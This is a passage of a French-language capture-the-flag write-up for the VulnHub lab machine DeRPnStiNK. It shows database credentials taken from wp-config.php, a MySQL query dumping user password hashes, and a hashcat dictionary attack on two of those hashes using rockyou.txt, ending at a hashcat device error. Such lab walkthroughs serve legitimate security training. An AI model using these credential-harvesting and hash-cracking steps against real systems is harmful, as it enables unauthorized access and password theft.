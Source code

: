 ####Dans ce dossier il y a le fichier wp-config.php qui contient des informations :
```console
define('DB_NAME', 'wordpress');
wp-config.php

:
/** MySQL database username */
:
define('DB_USER', 'root');
:

:
/** MySQL database password */
:
define('DB_PASSWORD', 'mysql');
:
```
####On se connecte soit au mysql via l'authentification root/mysql.
####Trois éléments : la BDD : wordpress, le user : root, le password : mysql.
Donc on va tenter de se logguer, presque trop facile, si jamais ça marche avec du bol on aura d'autre user/password :
```console
mysql> select User, Password from user;
+------------------+-------------------------------------------+
| User             | Password                                  |
+------------------+-------------------------------------------+
| root             | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| debian-sys-maint | *B95758C76129F85E0D68CF79F38B66F156804E93 |
| unclestinky      | *9B776AFB479B31E8047026F1185E952DD1E530CB |
| phpmyadmin       | *4ACFE3202A5FF5CF467898FC58AAB1D615029441 |
+------------------+-------------------------------------------+
7 rows in set (0.00 sec)
```

#####On va créer un fichier de hashes.txt avec les hash de unclestinky et phpmyadmin :
<pre>
9B776AFB479B31E8047026F1185E952DD1E530CB
4ACFE3202A5FF5CF467898FC58AAB1D615029441
</pre>

####On peut cracker ces hashes avec hashcat :
Si jamais hashcat ne marche pas dans la VM kali :
<pre>
```console
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
```
And
```console
apt-get install pocl-opencl-icd
```
</pre>
source ici : <https://security.stackexchange.com/questions/147397/hashcat-with-kali-2-in-a-vm#147407>
```console
root@DebSec:~/Documents/Challenge/VulnHub/DeRPnStiNK# hashcat -a 0 -m 300 hashes.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v4.0.1) starting...

VMware: No 3D enabled (0, Success).
clGetDeviceIDs(): CL_DEVICE_NOT_FOUND

clGetDeviceIDs(): CL_DEVICE_NOT_FOUND

```